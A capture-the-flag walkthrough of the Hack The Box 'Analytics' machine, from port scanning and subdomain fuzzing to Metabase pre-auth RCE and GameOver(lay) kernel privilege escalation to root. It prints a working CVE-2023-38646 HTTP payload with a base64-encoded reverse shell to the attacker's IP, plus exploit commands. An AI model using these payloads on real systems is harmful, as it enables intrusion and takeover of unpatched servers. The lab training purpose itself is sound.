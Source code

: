 # HTB - Analytics

### TL;DR
This is an Ubuntu 22.04 host running an http server on port 80. The vulnerable web application running is metabase, and using the appropriate exploit rce can be gained. For escalation, a kernel vulnerability can be abused.

__Keywords:__<br>
metabase, GameOver(lay)<br>

__References:__<br>
https://www.cvedetails.com/cve/CVE-2023-38646<br>
https://www.cvedetails.com/cve/CVE-2023-2640<br>
https://www.cvedetails.com/cve/CVE-2023-32629<br>
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/<br>
https://github.com/securezeron/CVE-2023-38646<br>
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629<br>
<br>
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target --top-ports 1000 -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 15:15 EDT
Nmap scan report for analytical.htb (10.129.136.15)
Host is up, received user-set (0.35s latency).
Not shown: 569 filtered tcp ports (no-response), 429 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```
Discover hidden subdomains with `ffuf`
```markdown
> ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 154  -t 100 -u http://analytical.htb -H "Host: FUZZ.analytical.htb" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://analytical.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.analytical.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 154
________________________________________________

data                    [Status: 200, Size: 77883, Words: 3574, Lines: 28]
```
Browsing the hidden subdomain at http://data.analitycal.htb we find a login portal for a metabase service. Searching for metabase vulnerabilities we find out there is a vulnerability (https://www.cvedetails.com/cve/CVE-2023-38646) in the `/api/setup/validate` endpoint, which can lead to rce.
<br>
<br>
### PHASE 2. User
Search for a poc in github for this cve (https://github.com/securezeron/CVE-2023-38646). Analyzing the poc, we see first step is to obtain setup token, for this, just query the `/api/session/properties` endpoint and find `setup-token` field. Then, to obtain rce, we query the `api/setup/validate` endpoint with the setup token and the appropriate payload.

We can do this ourselves with burpsuite.

![analytics1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9512d67d-0565-48bb-8e77-cca05f62f8b9)

So the setup token is `"setup-token" : "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`. For the payload, just use a base64 `sh -i` shell and query the endpoint building a post request with burpsuite.
```markdown
POST /api/setup/validate HTTP/1.1 Host: data.analytical.htb Content-Type: application/json Content-Length: 818 

{       "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":
        {
                "is_on_demand": false,
                "is_full_sync": false,
                "is_sample": false,
                "cache_ttl": null,
                "refingerprint": false,
                "auto_run_queries": true,
                "schedules":
                {},
                "details":
                {
                        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjEvMTkxOSAwPiYxCg==}|{base64,-d}|{bash,-i}')\n$$--=x",
                        "advanced-options": false,
                        "ssl": true
                },
        "name": "an-sec-research-team",
        "engine": "h2"
        }
}
```

![analytics2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/440a1690-57fa-4ec2-9ab5-2568bcfec630)

If this does not work, just use the poc hardocding the shell in base64 within the poc source code.
```markdown
> python3 exploit.py --rhost data.analytical.htb --lhost <listener ip> --lport 9001
```
After issuing the exploit, a sh shell is received on port 9001.
Continue enumerating the system.
```markdown
> uname -a && cat /etc/os-release
Linux befd7ac0fb41 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 Linux
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.18.2
PRETTY_NAME="Alpine Linux v3.18"

> whoami && id
metabase
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
We are in some kind of limited Ubuntu system, maybe a container. Looking around we find a script `/app/run_metabase.sh` to start the database where some env variables are manipulated, so let's enumerate environmental variables.
```markdown
> env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=befd7ac0fb41
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/opt
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=run_metabase.sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/app
MB_DB_FILE=//metabase.db/metabase.db
```
Clear text credentials are found here. So we can just login using them.
```markdown
> ssh metalytics@$target            
metalytics@10.129.136.15's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

Last login: Sat Oct  7 23:19:29 2023 from 10.10.14.80
metalytics@analytics:~$
```


### PHASE 3. System
Now we have a full shell out of the container. Enumerate system again.
```markdown
> uname -a && cat /proc/version
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
```
Notice the system is Ubuntu 22.04 and kernel is 6.2.0. This release is vulnerable to GameOver(lay) Ubuntu Privilege Escalation (CVE-2023-2640 and CVE-2023-32629).
To escalate privileges, just download and execute exploit available in github (https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).
After running the exploit, a root shell spawns.
```markdown
> -/exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned

> whoami
root
```
